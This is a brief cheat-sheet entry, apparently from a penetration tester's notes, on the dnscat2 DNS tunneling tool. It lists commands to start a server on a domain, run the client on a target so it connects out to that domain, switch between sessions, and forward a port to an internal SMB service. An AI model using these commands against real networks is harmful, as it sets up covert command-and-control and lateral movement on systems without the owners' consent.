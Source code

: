 # dnscat

DNS cat is a tool to create DNS tunnels. It is stealthy if traffic analysis is set up, but requires client to be uploaded on target - so it can be not so stealthy on disk



Run server:

```bash
dnscat2-server ice.club
```

Run client:

```
./dnscat ice.club
```

Interact with window:

```
windows
window -i 1
```

Forward one port:

```
listen 127.0.0.1:4455 1.1.1.1:445
```
